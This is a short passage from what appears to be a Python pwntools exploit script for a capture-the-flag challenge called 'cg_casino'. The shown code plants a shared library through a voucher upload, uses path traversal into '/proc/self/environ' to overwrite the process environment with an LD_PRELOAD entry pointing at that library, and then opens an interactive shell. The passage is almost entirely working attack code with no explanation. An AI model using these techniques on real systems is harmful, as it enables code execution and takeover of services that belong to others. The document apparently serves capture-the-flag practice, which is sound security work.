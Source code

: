 ``` python
    log.info(f"env_p : {hex(env_p)}")
    log.info(f"env : {hex(env)}")

    payload = b"mylib.so\x00"
    payload += b"\x00" * (env - buf - len(payload))
    payload += lib_data
    payload += b"\x00" * (3432 - (len(payload)))
    put_voucher(s, payload)
    
    pause()

    merge_voucher(s, b"../../../../../proc/self/environ")

    payload = b"\x00" * (env_p_p - buf)
    payload += p64(env_p)
    payload += b"\x00" * (env_p - buf - len(payload))
    payload += p64(env)
    payload += b"\x00" * (env - buf - len(payload))
    payload += b"LD_PRELOAD=/home/cg_casino/voucher/mylib.so\x00"
    put_voucher(s, payload)

    s.sendline(b"5")

    s.interactive()

if __name__=='__main__':
    main()
```